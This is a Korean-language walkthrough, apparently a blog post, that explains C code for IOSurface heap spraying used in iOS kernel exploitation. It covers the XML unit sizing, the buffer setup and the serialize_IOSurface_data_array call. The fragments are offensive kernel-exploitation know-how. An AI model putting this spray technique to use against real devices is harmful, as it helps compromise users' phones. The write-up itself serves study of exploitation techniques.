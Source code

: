 ```c
/*
 * xml_units_for_data_size
 *
 * Description:
 * 	Return the number of XML units needed to store the given size of data in an OSString.
 */
static size_t
xml_units_for_data_size(size_t data_size) {
    return ((data_size - 1) + sizeof(uint32_t) - 1) / sizeof(uint32_t);
}
```

다음으로, 4단계; “여기서 여러 개의 1은 Spraying Data 외에 고정된 XML 노드를 의미하며, 구체적인 구성은 이후에 확인할 수 있음”을 살펴보자.

`xml_units_per_data`를 기반으로 전체 XML Unit 수를 계산한다.

`(1 + xml_units_per_data) * current_array_length` 부분은 OSString Header + Data 구조를 `current_array_length`번 반복한 뒤의 Unit 수를 의미하며, 
앞뒤의 3개의 **`1`**은 추가적인 설명용 XML Unit을 나타낸다.

```c
size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
```

6단계에서는 XML에서 채워야 할 `current_array_length`개의 OSString Child Unit Header를 가리키는 XML Unit 포인터 배열을 준비한다. 

이 배열은 XML 구성 과정에서 사용되며, `current_array_length`개의 OSString Header Unit 주소를 저장해 두었다가 이후 Spraying Data를 XML에 복사할 때 참조한다.

```c
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
```

가장 중요한 핵심은 7단계에서 `serialize_IOSurface_data_array`를 호출하는 부분이다.
여기서 `args->xml`은 XML Unit 포인터로, 하나의 XML Header Unit을 가리킨다.

```c
#if 0
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        uint32_t xml[0];
        char string[0];
    };
};
#endif
struct IOSurfaceValueArgs *args;
size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
args = malloc(args_size);
// 7. XML 구성
uint32_t *key;
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
size_t xml_size = serialize_IOSurface_data_array(args->xml, current_array_length, data_size, xml_data, &key);
```

